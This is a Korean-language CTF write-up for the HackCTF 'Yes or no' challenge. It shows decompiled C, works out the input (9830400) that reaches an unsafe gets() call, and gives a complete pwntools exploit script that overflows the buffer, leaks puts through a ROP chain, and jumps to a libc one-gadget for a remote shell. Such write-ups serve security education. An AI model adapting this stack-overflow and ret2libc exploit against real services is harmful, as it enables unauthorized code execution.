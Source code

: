 ```yaml
---
title: "[HackCTF]Yes or no"
date: 2019-12-26
tags: [HackCTF]
categories: [HackCTF]
---
```


문제 의도는 그냥 ++전에 오는지 후에 오는지로 값 어떻게 나오는지 알아서 값을 맞춰주도록 해서 취약점으로 유도하는게 의도였던거 같다. 문제 서버는 ubuntu 18.04다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  int v4; // eax
  int v5; // ecx
  int v6; // eax
  int v7; // eax
  char s; // [rsp+Eh] [rbp-12h]
  int input; // [rsp+18h] [rbp-8h]
  int v11; // [rsp+1Ch] [rbp-4h]

  setvbuf(stdout, 0LL, 2, 0LL);
  v11 = 5;
  puts("Show me your number~!");
  fgets(&s, 10, stdin);
  input = atoi(&s);
  if ( (v11 - 10) >> 3 < 0 )
  {
    v4 = 0;
  }
  else
  {
    v3 = v11++;
    v4 = input - v3;
  }
  if ( v4 == input )
  {
    puts("Sorry. You can't come with us");
  }
  else
  {
    v5 = 1204 / ++v11;
    v6 = v11++;
    if ( input == v6 * v5 << (++v11 % 20 + 5) )
    {
      puts("That's cool. Follow me");
      gets(&s);
    }
    else
    {
      v7 = v11--;
      if ( input == v7 )
      {
        printf("Why are you here?");
        return 0;
      }
      puts("All I can say to you is \"do_system+1094\".\ngood luck");
    }
  }
  return 0;
}
```

입력한 숫자 정수형을 바꿔서 취약점 터지는 부분에 가게 하면 된다.

```
if ( input == v6 * v5 << (++v11 % 20 + 5) )
{
	puts("That's cool. Follow me");
	gets(&s);
}
```

취약점은 여기에서 터진다. 그래서 input값을 구해주면 된다.

![](https://user-images.githubusercontent.com/32904385/71475652-898eeb00-2824-11ea-8b21-9cb91fea4988.png)

그냥 c로 짜서 나온 결과 가져왔다. 결과는 `9830400` 이면 통과해서 `gets(&s)` 로 갈 수 있게된다.

그래서 `9830400` 들어가서 gets로 ret 바꿔서 puts leak하고 main으로 돌려서 oneshot 날려주면 된다. 그냥 문제에 라이브러리도 줘서 쉽게 풀었다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
# context.log_level = 'debug'
e = ELF('./yes_or_no')
# p = process('./yes_or_no')
p = remote('ctf.j0n9hyun.xyz',3009)
libc = ELF('./libc-2.27.so')
prdi = 0x0000000000400883 # pop rdi ; ret

p.sendlineafter('!\n',str(9830400))

payload = '\x90' * 0x12
payload += 'realsung'
payload += p64(prdi) + p64(e.got['puts']) + p64(e.plt['puts'])
payload += p64(e.symbols['main'])

p.sendlineafter('me\n',payload)

libc_base = u64(p.recvuntil('\x7f').ljust(8,'\x00')) - libc.symbols['puts']
log.info('libc_base : ' + hex(libc_base))

p.sendlineafter('!\n',str(9830400))

payload2 = '\x90' * 0x12
payload2 += 'realsung'
payload2 += p64(libc_base + 0x45216)
p.sendlineafter('me\n',payload2)

p.interactive()
```


